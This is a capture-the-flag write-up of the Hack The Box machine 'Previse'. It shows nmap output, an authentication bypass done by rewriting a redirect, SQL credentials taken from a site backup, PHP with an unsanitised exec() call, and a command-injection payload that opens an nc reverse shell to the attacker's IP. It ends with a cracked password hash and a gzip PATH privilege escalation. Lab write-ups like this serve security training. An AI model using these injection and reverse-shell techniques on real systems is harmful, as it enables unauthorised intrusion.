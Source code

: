 # Previse # 

## 1. Nmap 

~~~sql
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

~ We see that httponly is not set, so we could steal the admin pass with some simple XSS. We keep this in mind. Let's continue to Burp.. Burp doesn't seem to show anything special, besides the session cookie in the request which seems to always be the same : ==5jv8fbo6lush7c9d7kthnjc8bs== (Maybe because cache??)
~ We try to find more about this httponly flag, while running dirbuster in the background..

## 2. Dirbuster
~ We found a "nav.php" page which seems to belong to the admin, because it has the "create account" href.. We try and use that but we get redirected. We can just intercept the response in BURP and set the code of the page 200 instead of the 302 redirect.. BOOM we are logged in!!

## Web exploitation
~ Found a backup_site.zip. It contains all the code from the page.. We should be able to solve this without any help now. Following the log files, we know that the username of admin is "m4lwhere"

* From the zip file : *

		Sql Creds : 
			Name : root
			Password : mySQL_p@ssw0rd!:)
			Db : previse
	
	Intresting log file : 
	
~~~php
	<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");                                  
echo $output;                                                                                                     
                                                                                 
$filepath = "/var/www/out.log";                                                                                   
$filename = "out.log";                                                                                            
                                                                         
if(file_exists($filepath)) {                                                                                      
    header('Content-Description: File Transfer');                                                                 
    header('Content-Type: application/octet-stream');                                                             
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');                                
    header('Expires: 0');                                                                                         
    header('Cache-Control: must-revalidate');                                                                     
    header('Pragma: public');                                                                                     
    header('Content-Length: ' . filesize($filepath));                                                             
    ob_clean(); // Discard data in the output buffer                                                              
    flush(); // Flush system headers                                                                              
    readfile($filepath);                                                                                          
    die();                                                                                                        
} else {                                                                                                          
    http_response_code(404);                                                                                      
    die();
} 
?>
~~~

This dev used an "exec" php function to actually delim the log items so we can easily exploit that and get a reverse shell..let's try..
~~~sql
delim=comma%3b+nc+10.10.14.209+1234+-e+/bin/bash --- inside burp request
~~~ 

Played around the server and with the help of SQL creds we got the user hash... Unfortunately, I feel it will pe kinda hard for us to crack it.. : 
*  \$1\$🧂llol$DQpmdvnb7EeuO6UaqRItf. 

One thing which induced me in error was the salt emoji... I thought it was some kind of indication that the "llol$" part is actually just salt and I wasted some time with hashcat on this.. I'm not good enough yet it seems... FUCK!!!! Anyhow, we cracked the password : ilovecody112235! (after 10 mins)


## 3. Privesc
Simple privesc in the end, exploiting the gzip binary along with adding a new PATH variable.
